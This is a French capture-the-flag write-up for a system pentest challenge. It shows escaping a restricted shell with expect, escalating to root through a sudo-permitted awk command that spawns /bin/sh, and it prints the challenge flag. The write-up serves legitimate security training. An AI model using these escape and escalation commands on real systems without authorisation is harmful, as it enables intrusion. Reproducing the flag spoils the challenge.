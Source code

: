 

# L'illusionniste

### Categorie

Pentest système
### Description

Trouvez votre chemin vers la liberté, puis élevez-vous au-delà des restrictions.
Le flag vous attend dans la demeure de celui qui contrôle tout, au sommet de ces lieux.

Credentials: `user:password`

Format : **24HIUT{flag}**
Auteur : **Fr4gments**

### Write Up

Nous arrivons sur le chall avec un message d'acceuil pour le moins étrange:
```
=======================================================================================================
Bienvenue dans le défi "L'Illusionniste" !

Un magicien ne révèle jamais ses secrets, mais parfois les scripts révèlent plus qu'ils ne devraient.
Quelque chose vous attend sur cette machine, caché derrière des couches d'automatisation.

Les outils sont souvent plus puissants qu'ils n'y paraissent, et certains langages peuvent faire bien plus que leur fonction première...

Trouvez votre chemin vers la liberté, puis élevez-vous au-delà des restrictions.
Le flag vous attend dans la demeure de celui qui contrôle tout, au sommet de ces lieux.

Bonne chance !
======================================================================================================
```

On remarque très vite que nous sommes dans un shell restreint:
```
$ cd ../  
bash: cd: restricted
```

Les commandes usuelles de Linux ne fonctionnenent pas, excepté `ls` et quelques autres:
```
$ ls $PATH
cat cp dircolors expect less ls more nano rbash
```

On a accès aux quelques binaires du répertoire /usr/local/rbin. `less` et `more` semblent être prometteurs s'échapper du shell, toutefois, toutes tentatives resteront infructueuses. 

Dans le message d'accueil, on peut y lire:
```
Quelque chose vous attend sur cette machine, caché derrière des couches d'automatisation.
```

Parmi les binaires disponibles, on y trouve `expect` qui sert à automatiser des intéractions avec des programmes intéractifs (SSH, FTP etc...).
Si on s'en refère à [GTFOBins](https://gtfobins.github.io/gtfobins/expect/) on peut s'évader du shell restreint avec `expect`:
```
$ expect -c 'spawn /bin/sh;interact'
```

À ce stade, on se retrouve hors du shell restreint, on a donc accès à beaucoup plus de choses. Notamment au binaire `sudo`. On en profite pour vérifer nos droits sur la machine:
```
$ /bin/sudo -l
User user may run the following commands on this machine:
(root) NOPASSWD: /bin/awk
```

Si on se remémore de la deuxième partie du message d'accueil:
```
Les outils sont souvent plus puissants qu'ils n'y paraissent, et certains langages peuvent faire bien plus que leur fonction première...
```

``awk`` étant un langage de programmation... On jette un nouveau coup d'oeil à  [GTFOBins](https://gtfobins.github.io/gtfobins/awk/), on apprend que l'on peut créer un nouveau shell avec awk:
```
awk 'BEGIN {system("/bin/sh")}'
```

Toutefois, ouvrir un nouveau shell avec awk sans droits supplémentaires nous servirait à rien, on va alors le faire avec sudo:
```
$ /bin/sudo /bin/awk 'BEGIN {system("/bin/sh")}'
```

Nous sommes maintenant ``root`` sur la machine:
```
# whoami
root
```

En se basant sur la dernière partie du message d'accueil:
```
Le flag vous attend dans la demeure de celui qui contrôle tout, au sommet de ces lieux.
```

Rendons nous dans le répertoire ``/root`` et lisons le flag:
```
# cat flag.txt
24HIUT{3XP3C7_7H3_35C4P3_4WK_Y0UR_W4Y_UP}
```

Félicitations !

### Flag

24HIUT{3XP3C7_7H3_35C4P3_4WK_Y0UR_W4Y_UP}